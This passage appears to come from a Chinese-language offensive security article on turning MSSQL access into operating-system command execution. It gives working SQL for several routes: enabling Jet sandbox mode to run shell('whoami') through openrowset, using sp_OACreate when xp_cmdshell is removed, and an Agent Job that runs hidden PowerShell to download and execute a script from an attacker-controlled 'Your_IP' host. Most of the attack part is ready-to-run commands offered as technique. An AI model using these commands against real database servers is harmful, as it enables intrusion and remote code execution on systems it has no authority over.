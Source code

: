 开启沙盒：



```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWAREMicrosoftJet4.0Engines','SandBoxMode','REG_DWORD',1
执行命令:
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:windowssystem32iasdnary.mdb','select shell("whoami")')
```

**SP_OACREATE**

其实xp_cmdshell一般会删除掉了,如果xp_cmdshell 删除以后，可以使用SP_OACreate

需要注意的是这个组件是无回显的,你可以把他直接输出到web目录下的文件然后读取

[![](https://p5.ssl.qhimg.com/t01d2c9bfdc0828e902.png)](https://p5.ssl.qhimg.com/t01d2c9bfdc0828e902.png)

下面是收集来的sp_OACreate的一些命令:

[![](https://p5.ssl.qhimg.com/t01ee20583fb3dd8605.png)](https://p5.ssl.qhimg.com/t01ee20583fb3dd8605.png)

**Agent Job**

关于Agent job执行命令的这种情况是需要开启了MSSQL Agent Job服务才能执行,这里列出命令,具体的原理在安全客已经有过总结[**这里**](http://bobao.360.cn/learning/detail/3070.html)



```
USE msdb;
EXEC dbo.sp_add_job @job_name = N'clay_powershell_job1' ; 
EXEC sp_add_jobstep 
    @job_name = N'clay_powershell_job1', 
    @step_name = N'clay_powershell_name1', 
    @subsystem = N'PowerShell', 
    @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://Your_IP/Your_file''))"', 
    @retry_attempts = 1, 
    @retry_interval = 5;
EXEC dbo.sp_add_jobserver 
    @job_name = N'clay_powershell_job1'; 
EXEC dbo.sp_start_job N'clay_powershell_job1';
```

**Else**

MSSQL还有其他的很多存储过程可以调用,下面做一个小列举,有兴趣的朋友可以逐一研究:

[![](https://p0.ssl.qhimg.com/t0157a92f2ef0c2c091.png)](https://p0.ssl.qhimg.com/t0157a92f2ef0c2c091.png)

下面是关于一些存储过程调用的例子:

[![](https://p0.ssl.qhimg.com/t017b236023c85a7055.png)](https://p0.ssl.qhimg.com/t017b236023c85a7055.png)
